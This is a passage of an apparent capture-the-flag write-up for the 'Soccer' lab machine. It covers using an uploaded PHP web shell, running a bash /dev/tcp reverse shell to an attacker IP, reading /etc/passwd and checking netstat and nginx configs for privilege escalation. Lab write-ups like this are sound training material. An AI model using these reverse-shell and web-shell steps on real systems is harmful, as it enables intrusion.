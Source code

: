 Now this html/php file is available on url: `http://soccer.htb/tiny/uploads/shell.php`

I suppose it's a GUI based approach to creating a reverse shell, but it works just as well as sending a curl request. For the command I used a bash reverse shell:

```
bash -c 'bash -i >& /dev/tcp/10.10.16.19/4444  0>&1'
```

And connection established! 

# "I'm in..."

Let's see who we can pivot to:

```
www-data@soccer:/tmp/nscp$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
player:x:1001:1001::/home/player:/bin/bash
```

Looks like user `player` is the next target! Time for some privilege escalation!

I always check basic stuff first like `sudo -l` and config files that I have access to at this point, but nothing sticks out.

I also check `netstat -tulpn` and I am reminded that there is something running on port 9091, so I check nginx configs to see if that's what is hosting it:


```
tcp        0  --> 0 0.0.0.0:9091 <--        0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1105/nginx: worker  
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      1105/nginx: worker  
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
```

Turns out nginx hosts a site called `soc-player.soccer.htb`. This is probably not something that would show up in wordlists so it'd be hard to find if I couldn't look in the config file!
